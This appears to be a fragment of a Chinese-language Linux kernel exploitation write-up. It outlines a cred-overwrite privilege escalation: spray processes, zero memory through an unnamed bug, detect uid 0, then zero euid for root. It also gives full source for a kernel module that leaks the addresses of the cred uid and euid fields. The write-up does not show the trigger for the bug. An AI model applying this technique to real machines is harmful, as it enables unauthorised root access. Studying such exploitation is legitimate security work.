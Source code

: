 利用过程:
1. 创建许多进程，然后利用该漏洞对内存进行写0
2. 进程通过调用getuid 检测是否为0，为0则击中cred结构，然后继续写euid为0获得root权限

为了使利用更加成功，我们使用内核模块来泄露进程cred结构中uid和euid的具体位置（我通过创建5000千个进程，来改写进程的uid，然后测试了n多次，只成功命中的1次，虚拟机死机了n-1次）
```c
#include <linux/module.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/sched.h>
#include <linux/fs.h>        // for basic filesystem
#include <linux/proc_fs.h>    // for the proc filesystem
#include <linux/seq_file.h>    // for sequence files

static struct proc_dir_entry* jif_file;

static int
jif_show(struct seq_file *m, void *v)
{
    return 0;
}

static int
jif_open(struct inode *inode, struct file *file)
{
     printk("UID: 0x%p, EUID: 0x%p \n", &current->cred->uid,&current->cred->euid);
     return single_open(file, jif_show, NULL);
}

static const struct file_operations jif_fops = {
    .owner    = THIS_MODULE,
    .open    = jif_open,
    .read    = seq_read,
    .llseek    = seq_lseek,
    .release    = single_release,
};

static int __init
jif_init(void)
{
    jif_file = proc_create("jif", 0, NULL, &jif_fops);

    if (!jif_file) {
        return -ENOMEM;
    }

    return 0;
}

static void __exit
jif_exit(void)
{
    remove_proc_entry("jif", NULL);
}

module_init(jif_init);
module_exit(jif_exit);

MODULE_LICENSE("GPL");
```
